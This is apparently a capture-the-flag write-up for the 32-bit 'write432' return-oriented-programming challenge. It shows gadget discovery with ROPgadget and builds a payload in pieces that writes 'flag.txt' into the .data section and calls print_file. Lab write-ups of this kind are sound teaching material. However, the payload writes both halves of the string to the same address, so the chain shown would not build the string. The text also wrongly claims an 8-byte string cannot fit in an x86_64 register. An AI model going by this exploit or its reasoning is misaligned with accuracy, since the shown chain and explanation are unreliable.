 # write432

In this problem, there is a function in shared library named print_file, which will open the file with its argument. The problem here is that this argument, for example "flag.txt" is too long to store in a x86_64 register. Therefore, we need to find some space to store the argument for calling print_file.

First, check the security of the binary:
```
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial

```
Store the argument in stack is impossible because the ASLR in linux, which will make stack, heap address unknown to us.

A straightfoward solution is to store the argument in the data section of the ELF file, then make the print_file to get argument from that address.

Since PIE is disabled, data section address is known for us.   

We can use readelf command to find the address of the data section.
```
...
.data = 0x804a018 (dataSect)
...
```
Then, we need to find some rop to help us store the string "flag.txt" to the data section. We can find a gadget with two pop operations pop r1, pop r2, which means that these two registor can be controled by us. Secondly, we need to find a mov operation with the format like mov ptr[r1] [r2], so we can move the value in register r2 to the place we want to store.

Use ROPgadget to find possible gadgets.
```
ROPgadget --binary write432
```
We find two suitable gadgets.
```
...
0x080485aa : pop edi ; pop ebp ; ret (gadget1)
0x08048543 : mov dword ptr [edi], ebp ; ret (gadget2)
...
```
Firstly, we need to pop the address of data section and string "flag.txt" into edi, ebp by using gadget #pop edi ; pop ebp ; ret, and then use gadget #mov dword ptr [edi], ebp ; ret to move the string value to the data section.

Since x86 register can only store 4 bytes value one time, and the string we want to write to the data section is "flag.txt", which is 8 bytes, we need to the write operation two times.

Next, using ghidra, we know that print_file function obtain argument from stack. Therefore, we only need to push the address of data section into stack. 

We can jump to the print_file function address, same as previous problem, we can find print_file address from plt table, and then push the string ino stack.
```
peda$ plt
...
Breakpoint 3 at 0x80483d0 (print_file@plt)
...
```
There is one thing we need to notice, print_file get argument from stack[+4], which means that the string should be pushed into stack after 4 bytes offset.
```
                **************************************************************
                *                          FUNCTION                          *
                **************************************************************
                undefined __cdecl print_file(char * param_1)
undefined         AL:1           <RETURN>
char *            Stack[0x4]:4   param_1                                 XREF[2]:     00010772(R), 
...
```
Now, we can build our payload, same as problem before, there is a 40 bytes buffer, and 4 bytes ebp.
```
'A'*44
```
Pop the address of data section and string "flag" into edi, ebp, and move the string to data section.
```
p32(gadget1) + p32(dataSect) + b'flag' + p32(gadget2)
```
Pop the address of data section and string ".txt" into edi, ebp, and move the string to data section.
```
p32(gadget1) + p32(dataSect) + b'.txt' + p32(gadget2)
```
Jump to print_file function.
```
p32(print_file@plt)
```
push the address of data section and offset into stack.
```
b'A'*4 + p32(dataSect)
```
Write exploit.py using pwntools, and we obtain the flag:
```
ROPE{a_placeholder_32byte_flag!}
```

